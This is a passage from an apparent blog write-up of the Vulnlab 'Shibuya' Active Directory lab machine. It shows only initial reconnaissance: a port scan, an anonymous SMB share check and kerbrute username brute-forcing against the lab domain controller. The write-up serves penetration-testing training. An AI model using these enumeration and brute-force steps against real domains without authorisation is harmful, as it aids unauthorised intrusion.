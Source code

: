 ```yaml
---
layout: post
title: VL Shibuya (Machine medium)
date: 2025-02-21
categories: [Vulnlab, Machine]
tags: [Vulnlab, Machine, Active Directory, Krbrelayx, ADCS, Runas, ESC1]
author: Ethicxz
image: assets/image_start/shibuya.png
description: VL Machine Shibuya by Ethicxz
---
```


# Before Starting

```console
Me > 10.8.2.163
Target > 10.10.103.65
```
```console
22/tcp   open  ssh
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```
## BruteForce users with kerbrute

```bash
nxc smb shibuya.vl -u '' -p '' --shares
SMB         10.10.103.65    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.103.65    445    AWSJPDC0522      [+] shibuya.vl\:
SMB         10.10.103.65    445    AWSJPDC0522      [-] Error enumerating shares: STATUS_ACCESS_DENIED
```
we only have an anon session which has no rights and is therefore useless, let's use kerbrute to find valid users

```bash
kerbrute userenum --domain "shibuya.vl" --dc 10.10.103.65 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 02/20/25 - Ronnie Flathers @ropnop

2025/02/20 20:36:52 >  Using KDC(s):
2025/02/20 20:36:52 >      10.10.88.157:88

2025/02/20 20:37:03 >  [+] VALID USERNAME:     purple@shibuya.vl
2025/02/20 20:37:08 >  [+] VALID USERNAME:     red@shibuya.vl
```
By deduction, we can find the password of theses users
